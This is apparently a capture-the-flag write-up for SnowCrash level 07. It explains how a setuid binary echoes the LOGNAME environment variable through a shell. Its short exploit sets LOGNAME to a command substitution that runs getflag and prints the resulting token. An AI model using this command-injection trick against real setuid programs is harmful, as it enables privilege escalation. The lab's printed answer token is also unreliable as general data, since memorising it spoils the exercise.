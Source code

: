 # Level 07

## Vulnerability

## Context

```
level07@SnowCrash:~$  ls -l 
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

## Solution

Let's see what's in the level07 executable file. 
```
level07@SnowCrash:~$ nm -u level07
[...]
LOGNAME
/bin/echo %s
```
What  is [LOGNAME](https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname)? It's "an env variable that contains the user that executes the current shell process." 

Hm... Perhaps we can exploit LOGNAME to launch getflag. 
```
level07@SnowCrash:~$ LOGNAME=$\(getflag\)
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
